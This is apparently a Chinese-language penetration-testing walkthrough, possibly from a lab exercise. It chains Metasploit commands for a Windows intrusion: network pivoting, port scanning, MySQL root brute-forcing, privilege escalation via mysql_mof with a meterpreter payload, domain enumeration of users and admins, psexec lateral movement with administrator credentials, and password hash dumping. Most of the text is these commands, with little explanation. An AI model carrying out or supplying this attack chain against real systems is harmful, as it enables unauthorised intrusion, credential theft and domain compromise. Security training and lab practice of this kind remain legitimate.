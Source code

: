 操作继续

```
在background中进行route  add 10.10.1.4 255.255.255.0 1
扫描端口的插件
use scanner/portscan/tcp
set RHOSTA 10.10.1.3

扫描得到mysql服务，然后就是搞死他
use scanner/mysql/mysql_login
set PASS_FILE /etc/passwd.txt
set USERNAME root
然后通过mysql来提权
use windows/mysql/mysql_mof
set PASSWORD 123456
set rhost 10.10.1.3
set USERNAME root
set payload windows/meterpreter/bind_tcp
exploit
继续提权
use post/multi/recon/local_exploit_suggester
```

下一步拿到system权限后继续跑

```
view /domain:moonsec 查看当前域的计算机
通过ping获得客户机的ip地址
net user /domain 查看当前域的所有用户
net group /domain 获得当前域的用户组
net group "domain admins" /domain 获得管理员的名字
因为普通域用户更改系统信息都需要通过域管理员的验证
```

获取明文密码，拿到3389端口，获取sessions大法。

```
use exploit/windows/smb/psexec
 set RHOST 10.10.1.2
 set SMBUser administrator
 set SMBPass xxx123456..
 set payload windows/meterpreter/bind_tcp
```

获取hash ： `run post/windows/gather/hashdump`

